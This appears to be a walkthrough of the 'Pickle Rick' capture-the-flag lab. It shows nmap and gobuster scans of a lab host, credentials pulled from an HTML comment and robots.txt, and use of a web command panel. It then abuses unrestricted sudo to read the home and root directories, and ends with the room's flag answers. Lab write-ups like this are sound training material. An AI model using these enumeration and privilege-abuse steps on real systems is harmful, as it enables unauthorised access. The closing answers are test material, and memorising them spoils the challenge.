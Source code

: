 ![](Pickle%20Rick.png)
# Enumeration
```
nmap -sC -sV -v 10.10.45.121
Discovered open port 22/tcp on 10.10.45.121
Discovered open port 80/tcp on 10.10.45.121
Completed SYN Stealth Scan at 19:53, 1.27s elapsed (1000 total ports)
Initiating Service scan at 19:53
Scanning 2 services on ip-10-10-45-121.eu-west-1.compute.internal (10.10.45.121)
Completed Service scan at 19:53, 6.02s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.45.121.
Initiating NSE at 19:53
Completed NSE at 19:53, 0.27s elapsed
Initiating NSE at 19:53
Completed NSE at 19:53, 0.00s elapsed
Nmap scan report for ip-10-10-45-121.eu-west-1.compute.internal (10.10.45.121)
Host is up (0.00021s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Rick is sup4r cool
MAC Address: 02:E0:E3:9F:80:FF (Unknown)
```
```
gobuster dir -u 10.10.45.121 -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.45.121
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-1.0.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2024/08/26 19:56:09 Starting gobuster
===============================================================
/assets (Status: 301)
===============================================================
2024/08/26 19:56:21 Finished
===============================================================
```
In site source code there is a comment
```
<!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->
```
Username: R1ckRul3s
We need to find the password, enumerate more. In robotx.txt subdir of site we have `Wubbalubbadubdub` this could be a password
Password: Wubbalubbadubdub

This credentials seems not for ssh, we need to find a login page for this. Based from assets there is portal jpeg. This can be a hint that the login page is named portal, I tried using gobuster but the portal subdirectory is not showing maybe with the seclists i used.

The reason why i cant find the login page is im missing arguments in my command which is **-x** string File extension(s) to search for (dir mode only)
```
gobuster dir -u 10.10.45.121 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -x php
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.45.121
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php
[+] Timeout:        10s
===============================================================
2024/08/26 20:09:25 Starting gobuster
===============================================================
/login.php (Status: 200)
/assets (Status: 301)
/portal.php (Status: 302)
Progress: 50094 / 1273834 (3.93%)^C
[!] Keyboard interrupt detected, terminating.
===============================================================
2024/08/26 20:09:33 Finished
===============================================================
```
we can now login using the credentials we found.
![Pickril](pickril.png)
![Pickrleks](pickrleks.png)
Great! we can execute some commands
![Pckerl](pckerl.png)
ls command is not working, less commands work. We got the first flag.

Lets see if we can execute some sudo command 
```
sudo -l

Matching Defaults entries for www-data on ip-10-10-45-121:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-45-121:
    (ALL) NOPASSWD: ALL
```
Lets enumerate the directory
```
sudo ls /home
rick
ubuntu

sudo ls /home/rick
second ingredients
sudo less /home/rick/second\ ingredients
1 jerry tear
```
we found the second flag, lets enumerate more.
we found a lot of directories using the command. Root directory is interesting, it has 3rd.txt file
```
sudo ls /*
sudo ls /root
sudo less /root/3rd.txt
```
# What is the first ingredient that Rick needs?  
mr. meeseek hair


# What is the second ingredient in Rick’s potion?  
1 jerry tear


# What is the last and final ingredient?
fleeb juice
